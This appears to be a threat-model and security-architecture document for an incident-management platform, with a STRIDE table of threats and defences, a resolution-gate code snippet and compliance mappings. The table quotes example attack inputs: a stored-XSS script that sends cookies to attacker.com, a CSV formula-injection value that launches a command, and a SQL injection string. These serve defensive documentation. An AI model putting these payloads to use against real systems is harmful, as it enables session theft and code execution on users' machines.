

# AutoHeal v3.0 — Phase 5: Incident Command Center Security Architecture & Threat Model

## 1. Executive Summary

A security operations center platform must itself be impervious to adversarial attack. Attackers frequently attempt to weaponize incident tickets and logs to target analysts via stored XSS, exploit CSV exporters to compromise corporate workstations via Excel formula injection, or exploit race conditions to disrupt incident tracking.

This document details the threat model, vulnerability mitigation controls, and security verification standards implemented for the AutoHeal v3.0 Incident Command Center.

---

## 2. Threat Modeling Matrix (STRIDE)

| Threat | STRIDE Category | Attack Vector | Implemented Defense & Verification |
| :--- | :--- | :--- | :--- |
| **Log-Stored XSS** | Tampering / Elevation of Privilege | Attacker injects `<script>fetch('http://attacker.com?c='+document.cookie)</script>` into HTTP User-Agent or username field. | **Strict DOM TextContent:** UI never utilizes `innerHTML` for telemetry or evidence rendering. All values set via `node.textContent` or safe syntax-highlighting tokenizers. |
| **CSV Formula Injection** | Elevation of Privilege | Attacker sends username `=cmd|' /C calc'!A0` expecting analyst to export incidents to Excel. | **Formula Prefix Sanitization:** Every cell starting with `=`, `+`, `-`, `@`, `\t`, or `\r` is automatically escaped with a leading single quote (`'`). |
| **Lost Update Race Condition** | Tampering | Two analysts concurrently modify priority, status, or root-cause notes, overwriting each other. | **Optimistic Concurrency Control (OCC):** Atomic conditional SQL updates evaluating `WHERE incident_id = ? AND version = ?`. Yields HTTP 409 on conflict. |
| **Premature Resolution Bypass** | Repudiation | Rogue actor or rushed analyst marks an uncontained incident as `RESOLVED` without verification. | **Cryptographic Resolution Gate:** State machine rejects `RESOLVED` transitions unless `verification_status` is verified (`VERIFIED_CONTAINED` / `VERIFIED_RECOVERED`) AND non-empty `resolution_notes` are provided. |
| **SQL Injection in Query API** | Information Disclosure | Attacker injects `' OR 1=1 --` into `/api/security/incidents?search=...`. | **100% Parameterized SQLite:** All filters (`status`, `severity`, `priority`, `analyst`, `search`) use bound parameter placeholders (`?`). No string concatenation. |
| **Credential Leakage in Logs** | Information Disclosure | Raw bearer tokens, passwords, or credit card numbers persisted in incident evidence stores. | **Automated Redaction Engine:** Cryptographic and regex-driven redaction scrubs authorization headers, passwords, and PII prior to persistence and export. |
| **Memory Exhaustion via Query Flooding** | Denial of Service | Attacker queries `GET /api/security/incidents?page_size=1000000`. | **Server-Side Pagination Safeguards:** Query parameters enforce strict pagination defaults (`page_size=20`, max bounds). |

---

## 3. Cryptographic State Machine & Verification Gate

The state machine strictly prevents unauthorized or out-of-order transitions:



### The Resolution Gate Algorithm:
```python
if target_status == "RESOLVED":
    # Gate Requirement 1: Non-empty resolution documentation
    if not resolution_notes or not resolution_notes.strip():
        raise ValueError("Cannot mark incident RESOLVED: Resolution notes are strictly mandatory.")
    
    # Gate Requirement 2: Verified containment or recovery state
    v_status = (current_row["verification_status"] or "").strip().upper()
    if v_status not in ("VERIFIED_CONTAINED", "VERIFIED_RECOVERED"):
        raise ValueError(
            f"Cannot mark incident RESOLVED: Verification state is '{v_status}'. "
            "Must be 'VERIFIED_CONTAINED' or 'VERIFIED_RECOVERED' before resolution."
        )
```

---

## 4. Compliance & Audit Verification

All administrative operations generate an immutable trail in `incident_activity_logs`. The log records cannot be edited or deleted through application APIs, satisfying:
- **SOC 2 Type II:** Principle CC6.1, CC6.8 (Logical Access and Audit Logging).
- **ISO/IEC 27001:2022:** Control A.8.15 (Logging), Control A.8.16 (Monitoring Activities).
- **NIST SP 800-61 Rev 2:** Section 3.4 (Handling an Incident — Documentation & Evidence).
